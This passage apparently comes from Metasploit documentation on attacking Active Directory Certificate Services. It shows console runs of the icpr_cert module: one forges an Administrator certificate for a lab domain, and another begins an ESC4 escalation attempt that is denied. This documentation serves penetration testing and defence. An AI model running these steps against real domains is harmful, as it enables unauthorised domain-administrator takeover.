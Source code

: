 ```msf


View the full module info with the info, or info -d command.

msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 172.30.239.85

[*] 172.30.239.85:445 - Requesting a certificate...
[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate UPN: Administrator@daforest.com
[*] 172.30.239.85:445 - Certificate SID: S-1-5-21-3290009963-1772292745-3260174523-500
[*] 172.30.239.85:445 - Certificate stored at: /home/gwillcox/.msf4/loot/20221216180342_default_unknown_windows.ad.cs_390825.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) >
```

We can then use the `kerberos/get_ticket` module to gain a Kerberos ticket granting ticket (TGT) as the `Administrator`
domain administrator. See the [Getting A Kerberos Ticket](#getting-a-kerberos-ticket) section for more information.

# Exploiting ESC4 To Gain Domain Administrator Privileges
To exploit ESC4, we will require an account with write privileges over a certificate template object in Active
Directory. This involves finding an object with weak permissions defined within the `nTSecurityDescriptor` field. With
this object identified, we can modify it to reconfigure the template to be vulnerable to another ESC technique.

First, we will use the `icpr_cert` module in an attempt to exploit ESC1 (by setting `ALT_UPN`). This fails because
the `ESC4-Test` certificate template does not allow the certificate's subject name to be supplied in the request (the
`CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` flag is not set in the `msPKI-Certificate-Name-Flag` field).

```msf
msf6 > use auxiliary/admin/dcerpc/icpr_cert 
msf6 auxiliary(admin/dcerpc/icpr_cert) > set RHOSTS 172.30.239.85
RHOSTS => 172.30.239.85
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBUser normaluser
SMBUser => normaluser
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBPass normalpass
SMBPass => normalpass
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CA daforest-WIN-BR0CCBA815B-CA
CA => daforest-WIN-BR0CCBA815B-CA
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE ESC4-Test
CERT_TEMPLATE => ESC4-Test
msf6 auxiliary(admin/dcerpc/icpr_cert) > set ALT_UPN Administrator@daforest.com
ALT_UPN => Administrator@daforest.com
msf6 auxiliary(admin/dcerpc/icpr_cert) > run 
[*] Running module against 172.30.239.85

[-] 172.30.239.85:445 - There was an error while requesting the certificate.
[-] 172.30.239.85:445 - Denied by Policy Module
[-] 172.30.239.85:445 - Error details:
[-] 172.30.239.85:445 -   Source:  (0x0009) FACILITY_SECURITY: The source of the error code is the Security API layer.
[-] 172.30.239.85:445 -   HRESULT: (0x80094812) CERTSRV_E_SUBJECT_EMAIL_REQUIRED: The email name is unavailable and cannot be added to the Subject or Subject Alternate name.
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) > 
```
